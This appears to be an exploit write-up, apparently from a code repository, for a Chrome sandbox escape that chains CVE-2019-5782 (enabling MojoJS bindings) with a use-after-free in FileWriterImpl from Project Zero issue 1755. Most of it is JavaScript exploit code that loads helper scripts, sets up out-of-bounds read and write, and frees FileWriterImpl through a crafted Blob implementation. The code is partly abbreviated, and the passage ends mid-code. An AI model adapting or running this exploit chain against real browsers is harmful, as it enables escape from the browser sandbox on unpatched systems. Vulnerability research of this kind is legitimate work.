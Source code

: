 * A user visit our specially crafted HTML page.
* With CVE-2019-5782, we set `enabled_bindings_` value accordingly to enable MojoJS binding. Then reload the page.
* With Mojo now exposed to JS context, the page can communicate with Mojo IPC interface directly.
* Execute the UAF exploit to free FileWriterImpl.

When the browser process use the stale pointer inside the unretained FileWriterImpl reference, the browser will crash.

We are reusing some of the code in the attached exploit at [Issue 1755 bug tracking](https://bugs.chromium.org/p/project-zero/issues/detail?id=1755). The simplified code is as follows:

```javascript
<script src="/many_args.js">script>
<script src="/enable_mojo.js">script>
<script src="/crash.js">script>

<script>
  let oob = new many_args(); // setup OOB read/write
  if (typeof(Mojo) !== "undefined") {
    print('[enable_mojo] mojo already enabled')
    crash(oob);
  } else {
    enable_mojo(oob);
  }
script>
```

```javascript
// crash.js

async function CreateWriter() {
  // create writer from blink.mojom.FileSystemManagerPtr ...
}

async function RegisterBlob0() {
  // register blob_0 to blob registry ...
}

async function crash(oob) {
  print('[sandbox_escape] exploiting issue_1755 to escape sandbox and crash browser');

  var writer = await CreateWriter()

  print('  [*] crafting renderer-hosted blob implementation')
  function Blob0Impl() {
    this.binding = new mojo.Binding(blink.mojom.Blob, this);
  }
  Blob0Impl.prototype = {
    getInternalUUID: async (arg0) => {
      print('  [*] getInternalUUID is called');

      print('  [!] freeing FileWriterImpl');
      create_writer_result.writer.ptr.reset();

      // sleep 3 seconds ...

      print('  [*] resuming FileWriterImpl::DoWrite, prepare to crash');
      return {'uuid': 'blob_0'};
    }
  };

  RegisterBlob0();

  let blob_impl = new Blob0Impl();
  let blob_impl_ptr = new blink.mojom.BlobPtr();
```